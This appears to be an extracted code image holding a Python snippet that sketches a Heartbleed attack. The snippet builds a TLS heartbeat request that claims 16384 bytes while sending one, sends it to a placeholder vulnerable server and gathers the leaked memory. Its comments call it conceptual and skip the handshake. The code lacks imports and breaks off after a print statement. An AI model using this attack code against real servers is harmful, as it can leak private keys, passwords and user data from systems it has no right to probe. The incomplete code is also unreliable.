 ```python
# Content Type: 0x18 (Heartbeat)
# Version: 0x0301 (TLS 1.0) or 0x0302 (TLS 1.1) or 0x0303 (TLS 1.2)
# Record Length: Length of the heartbeat message (e.g., 1 + 2 + actual_payload_len)
# Heartbeat Message Type: 0x01 (Request)
# Heartbeat Payload Length (Claimed): 0x4000 (16384 bytes)
# Actual Payload: (e.g., 1 byte of actual data)

# For a real exploit, you'd need to establish a TLS connection first.
# This example oversimplifies the process.

TARGET_HOST = "<vulnerable_server_ip>"
TARGET_PORT = 443 # HTTPS

def construct_heartbeat(payload_length_claimed=0x4000, actual_payload=b'\x01'):
    # TLS Record Layer: Heartbeat (0x18), Version (e.g., TLS 1.1 = 0x0302), Record Length
    # Heartbeat Protocol: Type (Request = 0x01), Payload Length (claimed), Actual Payload
    hb_type = b'\x01'  # Request
    hb_payload_len_claimed = struct.pack('>H', payload_length_claimed)
    hb_actual_payload = actual_payload

    # Heartbeat message itself
    heartbeat_message = hb_type + hb_payload_len_claimed + hb_actual_payload

    # TLS record header (simplified)
    # Content Type (Heartbeat = 24), Version (TLS 1.1 = 0x0302), Length of heartbeat_message
    tls_header = b'\x18\x03\x02' + struct.pack('>H', len(heartbeat_message))
    return tls_header + heartbeat_message

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET_HOST, TARGET_PORT))

    # Send ClientHello (simplified - real ClientHello is complex)
    # In a real scenario, a full TLS handshake up to the point where heartbeats are allowed is needed.
    # For CTFs, often a simplified setup or a provided vulnerable binary is used.
    # This script is highly conceptual for the heartbeat part.

    print("Sending conceptual malformed heartbeat...")
    malformed_hb = construct_heartbeat()
    s.sendall(malformed_hb)

    # Listen for the server's response (which will contain leaked memory)
    leaked_data_parts = []
    s.settimeout(5)
    try:
        while True:
            part = s.recv(4096)
            if not part:
                break
            leaked_data_parts.append(part)
    except socket.timeout:
        print("Socket timeout while receiving data.")
    except Exception as e:
        print(f"Error receiving data: {e}")
    finally:
        s.close()

    if leaked_data_parts:
        leaked_data = b''.join(leaked_data_parts)
        # The actual leaked memory will be within the heartbeat response structure
        # Proper parsing of the TLS record and heartbeat response is needed here.
        print("Received potentially leaked data (raw bytes):")
```